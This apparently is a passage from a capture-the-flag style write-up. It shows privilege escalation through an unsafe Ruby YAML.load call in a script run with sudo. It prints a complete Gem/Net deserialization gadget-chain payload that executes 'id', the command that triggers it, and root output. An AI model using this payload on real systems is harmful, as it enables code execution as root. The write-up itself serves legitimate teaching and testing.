 ```ruby
end
```

This line is vulnerable :

```ruby
    YAML.load(File.read("dependencies.yml"))
```

The builtin Ruby YAML parser, it is vulnerable to deserialization attacks if YAML.load() or YAML.load_file() is used.

The file `dependencies.yml` can be in any directory.

A possible exploit is given [here](https://snyk.io/blog/finding-yaml-injection-with-snyk-code/) :


```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

The above YAML payload will execute the `id` command upon deserialization if it is parsed via `YAML.load()` or `YAML.load_file()`.

Provide this payload in file `dependencies.yml`, and test it :

```shell
sudo /usr/bin/ruby /opt/update_dependencies.rb
```

Result:

```text
sh: 1: reading: not found
uid=0(root) gid=0(root) groups=0(root)
Traceback (most recent call last):
	33: from /opt/update_dependencies.rb:17:in `<main>'
	32: from /opt/update_dependencies.rb:10:in `list_from_file'
	31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	30: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
```